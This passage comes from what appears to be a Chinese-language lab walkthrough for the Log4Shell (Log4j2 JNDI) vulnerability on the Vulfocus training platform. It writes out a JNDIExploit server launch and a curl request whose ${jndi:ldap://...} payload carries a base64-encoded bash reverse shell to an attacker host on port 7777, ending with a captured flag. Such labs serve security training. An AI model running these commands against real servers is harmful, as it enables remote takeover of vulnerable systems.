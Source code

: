     # 2.启动 JNDIEXploit 攻击服务器
    java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <attacker ip>

    # 3.发送携带攻击命令的 GET 包
    curl -G http://<victim ip>:<log4j2 漏洞环境端口>//hello --data-urlencode 'payload=${jndi:ldap://<attacker ip>:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/<attacker ip>/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'
    ```
    <div><img src="img/挂起jdni攻击服务器+监听7777端口+发送携带攻击命令get包.png" width=100%></div>

    - 如上图，可以看到 curl 发包回显 ok ，JNDIExploit 输出执行命令日志，7777端口成功进入容器，反弹 shell 成功。此时 ```ls /tmp``` 可以看到 ```flag-{bmh95574061-0a5e-4a41-9d01-aefb592faa63}``` ，将其输入 vulfocus 平台提交通过。